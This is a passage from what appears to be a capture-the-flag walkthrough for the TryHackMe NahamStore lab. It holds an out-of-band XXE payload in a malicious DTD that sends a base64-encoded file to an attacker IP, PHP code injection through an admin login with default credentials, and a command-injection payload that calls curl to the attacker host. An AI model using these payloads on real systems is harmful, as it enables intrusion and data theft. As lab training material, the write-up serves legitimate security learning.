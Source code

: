 
* Add the following XML code in a malicious.dtd file on your server: (Change IP)

```
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://10.6.44.219/%d;'>"> 
```

* Finally save all the file and run the following:

```
zip -r NahamStore\ -\ TryHackMe.xlsx *
```

* Start a listener, then upload the .xlsx file to the application:

```
 php -S 0.0.0.0:80
 ```


<br><br><br>


#### RCE


```
ffuf -u "http://nahamstore.thm:8000/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

* Default credentials worked - admin/admin

```
http://nahamstore.thm:8000/admin
```

* Here were are able to edit a market campaign details, there is an input box called "code" with some HTML content, add PHP code and see if it gets executed: (Use a web shell)

```
<?php echo "hi"; ?>
```


* Browse to the following sub-domain and view the updated campaign, and the code was excuted:

```
http://marketing.nahamstore.thm/
```



<br>

* The following request was vulnerable to RCE:

```
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
```

* Payload used to identify the vulnerability:

```
what=order&id=4$(curl+10.6.44.219)
```
